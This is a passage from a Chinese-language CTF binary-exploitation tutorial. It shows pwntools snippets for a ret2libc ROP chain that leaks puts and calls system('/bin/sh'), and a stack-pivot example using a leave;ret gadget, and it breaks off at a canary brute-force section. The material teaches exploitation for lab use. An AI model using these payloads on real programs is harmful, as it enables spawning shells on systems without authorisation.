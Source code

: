 ```python
payload += p64(stop_gadgets)
io.sendline(payload)
puts = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print hex(puts)
libc = LibcSearcher('puts',puts)
libc_base = puts - libc.dump('puts')
system = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')
payload  = 'a' * buf_length + p64(pop_rdi_ret) + p64(bin_sh) + p64(system)
io.sendline(payload)
io.interactive()
                          
```



##### 栈迁移

先去看汇编基础

 如图这是我们栈迁移的原理图![img](https://img2020.cnblogs.com/blog/2547408/202109/2547408-20210916190235308-2007478208.png) 

栈迁移能被实施的条件有二：

1. 存在 **leave ret** 这类gadget指令
2. 存在可执行shellcode的内存区域

要完成栈迁移的攻击结构，就要覆盖原栈上 **ret**为 **leave** **ret** gadget的地址 

```python
#例子
elf = ELF('./pwn')
system = elf.plt['system']
leave = 0x08048766
payload = 'a' * 0x24 + 'show'
io.recvuntil('codename:')
io.send(payload)
io.recvuntil('show')
ebp = u32(io.recv(4).ljust(4,'\x00'))
#gdb.attach(io)
print 'ebp='+hex(ebp) 
buf = ebp - 0x38 
payload = (p32(system) + 'aaaa' + p32(buf + 12) + '/bin/sh\x00').ljust(0x28,'a') + p32(buf-4) + p32(leave)
io.send(payload) 
```

 ![img](https://img2020.cnblogs.com/blog/2547408/202109/2547408-20210916192136789-1878432503.png) 

### 保护绕过

#### canary：

canary爆破脚本：
